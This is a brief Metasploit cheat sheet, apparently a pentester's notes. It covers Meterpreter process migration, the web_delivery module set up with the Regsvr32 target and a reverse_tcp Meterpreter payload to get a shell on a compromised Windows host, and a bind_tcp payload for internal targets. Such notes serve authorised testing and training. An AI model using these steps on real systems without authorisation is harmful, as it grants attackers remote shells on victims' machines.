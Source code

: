 # Metasploit
### Process Migrate
#### Meterpreter
* `migrate -N <process/PID>`<br>
_Needed when running as **NT AUTHORITY\SYSTEM** but get Access Denied_

### Shell Upgrade
#### Metasploit **web_delivery** module
1. Select module
   * `use exploit/multi/script/web_delivery`
2. set `lhost`
3. set target
   * `show targets`
   * `set target Regsvr32` - creates a payload to run on windows
4. set payload
   * `set payload windows/meterpreter/reverse_tcp`
5. Run command on already infected host to gain **Meterpreter** shell

### Exploiting targets in the internal network
* `set PAYLOAD windows/meterpreter/bind_tcp` - `reverse_tcp` shells won't work because internal target is not accessible from attacker machine

## Cool resources
https://book.hacktricks.xyz/shells/shells/windows#regsvr32
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
